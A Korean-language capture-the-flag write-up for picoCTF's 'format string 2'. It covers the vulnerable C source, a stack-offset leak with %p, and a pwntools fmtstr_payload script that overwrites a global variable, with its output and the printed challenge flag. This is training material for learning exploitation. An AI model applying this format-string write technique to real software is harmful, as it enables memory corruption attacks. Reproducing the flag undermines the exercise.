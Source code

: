 # [format string 2](https://play.picoctf.org/practice/challenge/448?category=6&difficulty=2&page=1)
<br />

- [Description](#description)
- [Exploitation](#exploitation)
- [FLAG](#flag)
<br />

# Description
> This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
<br />

**Source Code:**
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dfe923d97df1df729249ff21202d10ad15d45f4c, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/format_string_2/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

# Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. sus == 0x67616c66이면 FLAG 출력
2. printf(buf) 호출 -> FSB 취약점 발생
3. NO PIE
```
문제에서 제공하는 바이너리에는 FSB 취약점이 존재합니다. 해당 취약점을 통해 데이터를 유출시키고, `sus`의 값을 `0x67616c66`로 덮어쓰면 FLAG를 획득할 수 있을 것입니다.
<br />
<br />

### 1. 메모리 유출로 오프셋 구하기
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Here's your input: AAAAAAAA0x7ffebfe913e0.(nil).(nil).(nil).0x400.0x7ffebfe916d0.0x7ffebfe91638.0x3de00ec7.0x7f017e91911c.0x1.0x7ffebfe91700.(nil).(nil).0x4141414141414141.
sus = 0x21737573
You can do better!
```
포맷 스트링으로 출력한 내부 데이터 유출 중에 `AAAAAAAA`의 거리는 14 입니다.
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA.%14$p
Here's your input: AAAAAAAA.0x4141414141414141
sus = 0x21737573
You can do better!
```
<br />

### 2. `sus` 주소 구하기
```bash
$ readelf -s vuln | grep "sus"
    28: 0000000000404060     4 OBJECT  GLOBAL DEFAULT   25 sus
```
`sus`의 주소는 `0x404060` 입니다.

<br />

### 3. `sus` 덮어쓰기
```python
from pwn import *

context.arch = "amd64"

p = process("./vuln")
#p = remote("rhea.picoctf.net", 64169)

pay = fmtstr_payload(14, {0x404060:0x67616c66})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process './vuln': pid 1540
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
$
Here's your input:                                                                                                      \xf0c    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
[*] Got EOF while reading in interactive
$
```
<br />

# FLAG
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 62653: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
$
Here's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}[*] Got EOF while reading in interactive
$
```



